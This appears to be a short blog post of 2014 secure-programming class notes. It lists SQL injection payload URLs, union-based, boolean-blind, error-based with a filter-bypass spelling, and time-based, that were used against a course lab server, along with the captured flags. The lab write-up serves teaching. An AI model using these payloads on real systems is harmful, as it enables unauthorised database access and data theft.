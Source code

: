 ```yaml
---
layout: post
title: 'Secure Programming 2014-12-09'
category: note
slug: secure-programming-20141209
---
```

2014/12/09 Secure Programming Class Note

## SQLi1

-  need encode ' '

```text
http://tor.atdog.tw:8080/union/news.php?id=1
http://tor.atdog.tw:8080/union/news.php?id=1)union(select 1,(select flag from wtf_flags))%23
```

## SQLi2

``` text
http://tor.atdog.tw:8080/boolean/login.php?u=admin&p=admin
http://tor.atdog.tw:8080/boolean/login.php?u=admin&p=admin' and exists(select 1from information_schema.tables where ord(substr((select table_name from information_schema.tables limit 1), 1, 1))=67)%23
```

-  CSRF
-  XSS

## SQLi3

-  `ooooooooofl4gsss`

```text
http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select table_name from infoorrmation_schema.tables limit 41,1)s), 18446744073709551610, 18446744073709551610)) = 1
```

-  `flag`

```text
http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select column_name from infoorrmation_schema.columns limit 1,1)s), 18446744073709551610, 18446744073709551610)) = 1
```

-  `SecProg{why_my_pay1oad_is_s0_Complic4tEd}`

```text
http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select flag from ooooooooofl4gsss limit 1,1)s), 18446744073709551610, 18446744073709551610)) = 1
```

## SQLi4

```text
http://tor.atdog.tw:8080/time/track.php?action=1 and (sleep(ascii(substr((select table_name from information_schema.tables limit 41,1),4,1))%25100)) = 1
http://tor.atdog.tw:8080/time/track.php?action=1 and (select if(((select table_name from information_schema.tables limit 41,1)='what_flags'),sleep(10),0))=1
```
